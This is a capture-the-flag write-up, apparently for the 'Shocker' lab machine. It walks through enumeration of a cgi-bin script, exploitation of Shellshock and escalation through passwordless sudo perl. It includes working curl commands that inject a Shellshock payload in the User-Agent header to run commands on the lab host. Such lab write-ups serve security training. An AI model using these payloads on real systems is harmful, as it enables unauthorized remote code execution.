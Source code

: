 I found these directories after running dirbuster:
<img src="https://i.imgur.com/JVUjm75.png" height="80%" width="80%" alt="shocker"/> <br>

I did a google search on potential vulnerabilities of the _/cgi-bin_ directory, which leads us to the shellshock vulnerability. <br>

The next thing I tried is to continue enumerating the cgi-bin directory, to see if there are potential scripts there which I can use (with _.sh_ or _.cgi_ file extension):

<img src="https://i.imgur.com/Mafj31M.png" height="80%" width="80%" alt="shocker"/> <br>

This leads me to the _user.sh_ script and the contents are the results of the `uptime` command.

<img src="https://i.imgur.com/6cOOk6F.png" height="80%" width="80%" alt="shocker"/> <br>

### Exploiting the box

To use the Shellshock exploit, I tweaked the `curl` command found on HackTricks.xyz, and was able to gain RCE in the system as the user shelly
```markdown
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'whoami'" HTTP://10.10.10.56/cgi-bin/user.sh/
shelly
```

Using the `ls` command, I was able to retrieve the user flag within the home directory of shelly.

```markdown
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'ls /home/shelly'" HTTP://10.10.10.56/cgi-bin/user.sh/
user.txt
```
## Privilege Escalation

However, the user shelly does not have access to the root directory, to check its privileges, I ran the sudo -l command, and found that shelly can execute perl script without password as root

<img src="https://i.imgur.com/c58zS4q.png" height="80%" width="80%" alt="shocker"/> <br>

I decided to get an actual reverse shell so that privilege escalation will be easier. Start listener on host machine and connect to host for a reverse shell.

<img src="https://i.imgur.com/CnsjuCg.png" height="80%" width="80%" alt="shocker"/> <br>
<img src="https://i.imgur.com/M9W5hn8.png" height="80%" width="80%" alt="shocker"/> <br>

Knowing that I am able to run perl command with sudo without password, I was able to get the root flag as well
<img src="https://i.imgur.com/P1cHudk.png" height="80%" width="80%" alt="shocker"/> <br>
